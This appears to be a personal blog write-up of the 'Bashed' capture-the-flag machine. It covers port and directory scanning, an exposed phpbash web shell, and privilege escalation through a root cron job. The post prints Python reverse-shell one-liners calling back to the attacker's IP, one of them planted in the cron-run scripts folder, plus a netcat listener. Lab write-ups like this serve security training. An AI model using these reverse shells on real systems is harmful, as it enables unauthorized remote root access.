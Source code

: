 ```yaml
---
layout: post
title:  "Bashed"
date:   2023-10-28 07:15:30 -0400
categories: jekyll update
---
```



Bashed
<img
  src="/assets/bashed.png"
  alt="featured image"
  class="featured-image-post"
/>
Was an easy box up to the tricky priv esc but finally got the root.

```
┌──(root💀kali)-[/home/spacemoth/machines/lame/CVE-2007-2447]
└─# nmap -sC -sV -Pn 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-28 05:07 EDT
Nmap scan report for 10.10.10.68
Host is up (0.055s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```
Not much there so ran an all port scan `-p`:
```
┌──(root💀kali)-[/home/spacemoth/machines/lame/CVE-2007-2447]
└─# nmap -p- -Pn 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-28 05:07 EDT
Nmap scan report for 10.10.10.68
Host is up (0.039s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
```
Not much of a difference so I check out the web server at port 80, not much there. I run gobuster:
```
┌──(root💀kali)-[/home/spacemoth/machines/lame/CVE-2007-2447]
└─# gobuster dir -u 10.10.10.68 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/server-status        (Status: 403) [Size: 299]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
==============================================================
```
First thing pops out at me is the `/dev` domain. So I check it out and its a phpbash web shell. I obtain the user flag:
```
www-data@bashed:/var/www/html/dev# whoami
www-data  
www-data@bashed:/var/www/html/dev# cd ..
www-data@bashed:/var/www/html# cd ..
www-data@bashed:/var/www# cd ..
www-data@bashed:/var# cd ..
www-data@bashed:/# ls
<snip>
www-data@bashed:/# cd home
www-data@bashed:/home# ls
arrexel  
scriptmanager  
www-data@bashed:/home# cd arrexel
www-data@bashed:/home/arrexel# cat user.txt
82d****************************
```
I tried sudo -l and it returned that scriptmanager is able to run sudo without a password. I was unable to switch to the user so I looked for a reverse shell one-liner. I found this:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Stabilized my shell: `python -c "import pty;pty.spawn('/bin/bash')"`
I ran the command: `sudo -u scriptmanager /bin/bash`
```
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$ whoami
whoami
scriptmanager
scriptmanager@bashed:/$ 
```
I noticed the folder `scripts` in the root directory and checked it out. It has 2 files:
```
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Oct 28 02:55 test.txt
```
Root owns test.txt and the time its "created" keeps changing, which makes me to believe its a cron job. The test.py file writes to the test.txt:
```
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```
I will replace this file and put a reverse shell one-liner into it so when the cron job runs, which is owned by root, will hopefully give us an elevated session back. On the target machine I enter this command to create a new file:
```
scriptmanager@bashed:/scripts$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.24",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > exploit.py
<o(),2);p=subprocess.call(["/bin/sh","-i"]);' > test2.py
```
I set up a nc listener and as soon as I do I get a shell.
```
┌──(kali💀kali)-[~]
└─$ nc -nlvp 1235 
listening on [any] 1235 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.68] 58710
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
I was going to change the name of the original test.py to something else and change the new file I just created to test.py. Apparently the cron job is set up to run all .py files as root in the scripts directory. I went ahead and grabbed the root flag.
```
# cd root
# ls
root.txt
# cat root.txt
42*************************
```
